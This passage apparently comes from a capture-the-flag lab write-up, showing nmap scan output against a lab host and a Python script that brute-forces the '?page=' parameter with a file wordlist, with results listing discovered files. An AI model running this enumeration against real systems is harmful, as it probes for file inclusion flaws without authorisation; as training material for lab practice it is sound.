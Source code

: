 ```tsx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   186.31 ms 10.8.0.1
2   186.41 ms 10.10.156.164

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.33 seconds
```

# Initiate Foothold

I create my own script to scan through the files at parameter `?page=` and use this [wordlist](https://gist.githubusercontent.com/Sjord/5e8f06c3734c1a1129c729c4d28a07e7/raw/35163117f81ede219644dcb143e6eab7b9ab207c/wordlist.txt):

```python
import requests

url = "http://10.10.156.164/index.php?page="

wordlist = open("/home/kali/wordlists/files.txt", "r")

for param in wordlist:
	response = requests.get(url + param.strip())
	if len(response.text) != 0 and len(response.text) != 15757:
		print(f"Param: {param.strip()}")
		print(f"Response code: {response.status_code}")
		print(f"Length: {len(response.text)}")
		print("------------------------")
```

Output:

```tsx
┌──(kali㉿kali)-[~/SublimeText]
└─$ python3 sendRequest.py
Param: index.php
Response code: 200
Length: 351
------------------------
Param: about.html
Response code: 200
Length: 9309
------------------------
Param: readme.md
Response code: 200
Length: 675
------------------------
Param: readme.txt
Response code: 200
Length: 675
------------------------
Param: contact.html
Response code: 200
Length: 7505
------------------------
```
